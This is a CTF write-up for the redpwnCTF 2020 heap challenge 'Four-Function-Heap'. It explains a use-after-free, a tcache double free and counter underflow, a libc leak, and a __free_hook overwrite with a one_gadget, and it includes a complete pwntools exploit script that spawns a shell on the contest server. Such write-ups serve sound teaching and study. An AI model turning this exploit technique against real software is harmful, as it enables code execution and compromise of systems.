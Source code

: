 # Four-Function-Heap
Pwn, 490

> When ctf writers can't think of interesting problems, there's always four function heap
> 
> nc 2020.redpwnc.tf 31774

My first decent heap solve :)

The idea is to get a write and overwrite one of the hooks (I chose to overwrite `__free_hook`) with a one_gadget to get a shell.

Usual security checks gives us:
```
boshua@cybersec:~/fourfunction/bin$ pwn checksec four-function-heap 
[*] '/home/boshua/fourfunction/bin/four-function-heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

and

```
boshua@cybersec:~/fourfunction$ strings libc-2.27.so | grep GNU
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27.
Compiled by GNU CC version 7.3.0.
```

Meaning it's probably heap exploitation as pointed out by the title.

The binary is also running on the standard `libc-2.27.so`, so tcache exploitation is probably the way to go as this version of libc doesn't really have security checks for it.

Some interesting things to note:
- Only have 14 operations in total
- Can only use index 0 to read/write/delete; the program won't accept any other index

Opening the binary into Ghidra, there is a pretty clear UAF vulnerability - when a chunk is created, a variable gets set to that pointer but isn't reset when that chunk is freed.

1. I first allocated a `0x100` sized chunk, and leaked its address with a double free and showed it. I needed this address to forge chunks later on.

2. I allocated another `0x100` chunk from the tcache freelist, and wrote the address I leaked from step 1. The tcache freelist is still the same, but now the counter is `1`. See appendix for why I did this.

3. Next, I allocated a padding chunk of size `0x420`. This chunk serves as a padding between the chunk from step 2 and the top, making sure that the previous chunk doesn't get merged with the top when it's freed. Note that this chunk is `0x100` size, because I wanted to pull from the top chunk, not the tcache.

4. I allocated another chunk of size `0x100`, as well as writing the leaked chunk address from step 1. This chunk also comes from the tcache freelist, and reduces the counter to `0x00`.

5. I finally allocated one more `0x100` chunk from tcache. This one underflowed the tcache counter to `0xff`. The pointer to this chunk was the original leaked pointer, from my overwrite in step 4.

6. I then freed it, so its address wound up in the unsorted bin. The unsorted bin's top chunk gets a pointer to the main arena (inside libc) written to it, so I leaked that.

7. I showed the chunk from step 5 and leaked the libc pointer.
    
    I calculated the libc base address from the leak, and then calculated the addresses of the `__free_hook` and the one_gadget I found.
    
8. I allocated a `0x40` sized chunk. This basically split my chunk from step 5 into two smaller chunks due to glibc's first-fit allocation. I wrote the address of `__free_hook` to this chunk.

    I still have no idea why this chunk gets added to the freelist. I think (?) it might be because the tcache counter is really high, but if anyone reading this knows please tell me :D

9. I allocated a `0x100` sized chunk from tcache. This removed one from the tcache freelist and set me up for the `__free_hook` overwrite.

10. I allocated a `0x100` sized chunk from tcache. This chunk's address was the `__free_hook` address that I wrote in step 8. So, I can just overwrite that address with the address of the one_gadget.

11. I freed a chunk for the last time, triggering `__free_hook` and spawning the shell.


```python
from pwn import *

p = remote("2020.redpwnc.tf", 31774)
#p = process("./bin/four-function-heap")
e = ELF("./bin/four-function-heap")
libc = ELF("./libc-2.27.so")

'''
gdb.attach(p, """break * 0x555555554a50
c""")
'''

def alloc(idx, size, data="AAAA"):
	print("alloc")
	p.recvuntil(":")
	p.sendline("1")
	p.sendlineafter(": ", str(idx))
	p.sendlineafter(": ", str(size))
	p.sendlineafter(": ", data)

def free(idx):
	print("free")
	p.recvuntil(":")
	p.sendline("2")
	p.sendlineafter(": ", str(idx))

def show(idx):
	print("show")
	p.recvuntil(":")
	p.sendline("3")
	p.sendlineafter(": ", str(idx))

# Your Code Here
alloc(0, 0x100)

free(0)
free(0)
show(0)

dat = p.recvline()

curr_chunk = u64(dat[:6].ljust(8, "\x00"))
print("curr_chunk", hex(curr_chunk))

alloc(0, 0x100, p64(curr_chunk))
alloc(0, 0x420)
alloc(0, 0x100, p64(curr_chunk))
alloc(0, 0x100, "CCCCCCCC")
free(0)
show(0)

dat = p.recvline()
libc_leak = u64(dat[:6].ljust(8, "\x00"))
print("libc leak", hex(libc_leak))

libc.address = libc_leak - 0x3ebca0
print("libc address", hex(libc.address))

free_hook = libc.sym["__free_hook"]
one_gadg = libc.address + 0x4f322

print("free hook", hex(free_hook))
print("one gadget", hex(one_gadg))

alloc(0, 0x40, p64(free_hook))
alloc(0, 0x100, "AAAAAAAA")
alloc(0, 0x100, p64(one_gadg))
free(0)

p.interactive()
```

Flag: `flag{g3n3ric_f1ag_1n_1e3t_sp3ak}`

### Appendix
I wanted to leak libc to get the one_gadget address (I only had an offset from libc base due to the security protections).

The standard approach is to fill up the tcache freelist. Then, you can allocate and free one more chunk to get it in the unsorted bin, whos `fd` pointer will have a pointer to a libc address.

Each tcache bin only holds 7 freed addresses, so you can usually accomplish this by allocating 7 times, then freeing 7 times. However, that in itself is 14 operations, meaning I can't use that.

The option that I used was to underflow the tcache counter. The idea is to basically request allocations from the tcache freelist until you underflow the counter, setting it equal to 0xff. Then, you can allocate and free one more chunk to get it into the unsorted bin.